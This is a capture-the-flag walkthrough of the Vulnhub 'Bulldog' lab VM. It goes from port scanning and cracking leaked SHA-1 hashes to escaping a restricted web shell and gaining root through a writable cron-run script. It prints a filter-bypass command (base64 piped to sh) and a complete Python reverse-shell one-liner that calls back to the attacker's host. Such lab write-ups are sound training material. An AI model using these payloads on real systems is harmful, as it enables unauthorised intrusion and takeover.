 <b>VM name:</b> 
Bulldog

<b>Objective:</b>
Get root!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogIP.png">

After loading this VM up in VirtualBox, it gives us the box's IP, so no real need to do an arp-scan to find out our target address.
So, first things first, let's run an Nmap scan to see what ports and services are available!
(*Please note that I worked on this VM and write-up from two different locations, so the DHCP IP address will appear different in certain screenshots. There are also times I switch back and forth between my Kali box and my Ubuntu box)

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_nmapscan.png">

It seems they are running SSH on port 23 (it's not running as telnet), and there is some web activity on 80 and 8080. Exploring the web stuff first, I confirmed that both 80 and 8080 are just mirrors of each other and couldn't find any differences. We are first greeted with this landing page. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldoglanding.png">

The initial page doesn't offer much other than info that they've been breached. The source code didn't have anything interesting either--nor did the link to the Notice page. So, perhaps something is hiding on this domain somewhere. First thing I looked at: robots.txt. But it was a troll.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_robots.png">

Time to load up Sparta and see if it can detect anything interesting to explore.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_spartaresults.png">

Hmm, this looks good. A dev page! 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_dev.png">

Nice, a system overhaul to make it more secure. But is it really? There's a bunch of info on employees here which could be useful. Clicking on the web-shell, it seems we need authentication to proceed. What to do, what to do...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_webshell.png">

Let's check the source code for the /dev page. Sure enough we find something interesting!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_devhashes.png">

Those are SHA-1 hashes, so let's run em in a decoder to see if we can get any plaintext passwords. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_sha1decrypt.png">

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogcreds.png">

Nice! We have two results, which gives us a pair of credentials for something. But for what? I immediately tried the credentials on the SSH port, but no luck there, so there must be something else. Is there an admin page hiding? Yep!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogadmin.png">

Logging in with Nick's credentials, we can then access the web-shell as we are authenticated.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_django_nicklogin.png">
<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_webshellloggedin.png">

Neat. As the text on the /dev page mentioned, this is a shell interface, but it looks like we are limited only to a couple of commands. Semi-colon doesn't work to escape, and we get a message busting us! However, there are more ways than just that to escape. Can we trick it by passing all of our commands through base64? Let's test it with the following:

echo 'whoami'|base64|base64 -d|sh

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/echotest.png">

Sweet, it works. Now we can fully interact with the shell and pass whatever commands we like. While we don't need to pass it through base64, let's see if there is anything interesting in the /etc/passwd file. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_etcpasswd.png">

Not too much here, but let's explore some other directories and files that you can usually bet on having something good. Next stop is /etc/cron.d!

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldogcron.png">

Running cat on each of these files, runAV contained something suspicious and worth checking out--a hidden directory with an application.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_hiddenscript.png">

Awesome--so this means that this application is run AS ROOT every minute. Let's cat the contents.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/bulldog_hiddenPYTHON.png">

You dun messed up Alan! Now we have a vector for getting a reverse shell and potentially even more (priviledge escalation!). Since this is already set as a python script, we can echo in python code to this file to get a reverse shell up.
Pentest Monkey's Reverse Shell Cheatsheet is a good resource for reverse shell information, and we can utilize the following Python reverse shell code:

'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR IP ADDRESS",LISTENING PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Let's setup a listening port with netcat on our machine, and then add the code to the application using our web-shell.
Remember, however, we can't use any semi-colons since they will be detected, so instead, we need to split this up line by line. A little tedious, but it will be worth it if it works.

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/listening.png">
<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/pythoncode.png">

Now we just wait a minute annnnnnnnnd...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/congrats.png">

Amazing! We are in AND we are also root since it executed under root! 

Now, I know that we are alread root and our primary objective is done... but the box is challenging us with another way to get root, and I'm not one to turn down a challenge! Time to explore all the files and see if there is anything in here that is interesting.

First, let's change our shell interface by spawning a bash shell. Checking out the home folder we find the Bulldogadmin user we knew existed from the /etc/passwd file. 

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/hiddendirectory.png">

Seriously, what is with this company and hidden directories and prefacing them as 'hidden'--kind of a dead giveaway, no? 
At least name it 'garbage'! :P

In the hidden directory we find an app (customPermissionApp) and a note...

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/hiddennote.png">

Thanks Ashley! But unfortunately we can't run it. Perhaps, however, there is something useful we can find by running strings on the executable?

<img src="https://github.com/Keramas/Vulnhub_VM_Walkthroughs/blob/master/Bulldog1/walkthrough_images/permissiondenied_strings.png">

'SUPERultimatePASSWORDyouCANTget'

Winner, winner, chicken dinner! That looks like it could definitely be a password when put together (and it says it's a password!), unless we are getting super trolled. While I did not attempt to gain access through different means, I am certain that if the box can be accessed with a different user, we can use this password to gain root priviledges via 'sudo su'.

Seems like Bulldog Industries still has a ways to go before they are safe from breaches!
